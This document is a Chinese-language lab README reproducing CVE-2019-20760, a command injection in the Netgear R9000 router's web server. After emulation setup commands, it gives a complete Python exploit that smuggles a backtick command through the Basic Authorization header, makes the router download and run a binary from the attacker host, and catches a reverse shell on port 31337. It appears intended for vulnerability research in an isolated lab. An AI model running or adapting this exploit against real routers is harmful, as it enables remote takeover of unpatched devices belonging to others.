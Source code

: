 # Netgear R9000 命令注入漏洞（CVE-2019-20760）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- uhttpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armhf`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/R9000-V1.0.4.26.img"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/cgi-bin/

# 漏洞利用
$ python3 tools/exp.py
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

from pwn import *
from threading import Thread
import requests
import base64

cmd  = 'admin:'
cmd += '`'
cmd += 'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf'
cmd += '`'

assert(len(cmd) < 255)

cmd_b64 = base64.b64encode(cmd.encode()).decode()

headers = {
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "Accept-Encoding": "gzip, deflate",
    "Connection": "keep-alive",
    "Upgrade-Insecure-Requests": "1",
    "Authorization": "Basic " + cmd_b64
}

def attack():
    try:
        requests.get("http://192.168.2.2/cgi-bin/", headers=headers, timeout=1)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 参考链接

- https://nvd.nist.gov/vuln/detail/CVE-2019-20760
- https://xz.aliyun.com/t/9125

